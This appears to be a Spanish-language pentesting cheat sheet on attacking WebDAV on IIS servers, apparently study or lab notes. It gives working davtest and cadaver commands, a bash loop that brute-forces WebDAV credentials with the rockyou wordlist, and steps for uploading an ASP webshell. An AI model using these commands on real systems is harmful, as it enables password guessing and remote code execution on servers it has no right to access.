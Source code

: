 # Explotación de WebDAV en IIS

Tags: #IIS #WebDav #Servidor 

* IIS = Internet Information Services y  es un servidor web para el sistema operativo Windows.
	* Soporta extensiones de archivos ejecutables:
		* .asp
		* .aspx
		* .config
		* .php

Necesitamos credenciales validas para poder entrar al WebDav en la web
```bash 
❯ http://IP/webdav/
```

## Webshell 

```bash 
/usr/share/webshells/                # Ruta de la Webshell, estas son aplicaciones que se ejecutan en la web de forma interactiva y asi poder ejecutar comandos 

	# asp, aspx, cfm, jsp, laudanum, perl, php, seclists
```

## Tools 

```bash 
* davtest           # Usada para escanear, autenticar y explotar un WebDAV
* cadaver           # Soporta la subida y bajada de archivos, visualizacion, editar, mover/copiar, borrar, manipular y bloqueo.
```

Esta tool crea un directorio en el servidor y va subiendo archivos con diferentes extensiones además de ver cuales se pueden ejecutar. 
```bash 
❯ davtest -auth <user>:<passwd> -url http://IP/webdav    # Necesitamos credenciales validas, y nos checara que tipo de archivos puedes subir y ejecutar en el servidor 
```

```bash 
❯ cadaver http://IP/webdav           # Puedes acceder al contenido del servidor WebDAB, te preguntara las credenciales, esta tool te desplegara una consola
	❯ put /usr/share/webshells/asp/webshell.asp      # Asi subimos la webshell al servidor Webdav
```

```bash 
❯ davtest -url http://127.0.0.1 -auth admin:admin     # Debemos de tener el usuario y passwd validos para poder usar la tool

	# 1er admin = Usuario 
	# 2do admin = passwd

❯ cat /usr/share/wordlists/rockyou.txt | while read password; do response=$(davtest -url http://127.0.0.1 -auth admin:$password 2>&1 | grep -i succed); if [ $response ]; then echo "[+] La passwd correcta es: $password"; break; fi; done

# Ataque de Fuerza Bruta para encontrar la passwd con el comando davtest

❯ cadaver http://127.0.0.1     # Sirve para subir archivos, descargar contenido, etc... Debemos de tener el usaurio y passwd validos para la autenticacion 
	❯ mkdri test              # Podriamos crearnos dir en los cuales podemos colocar un recurso 
	❯ cd test 
	❯ put webdav.txt          # Podemos subir un archivo 
```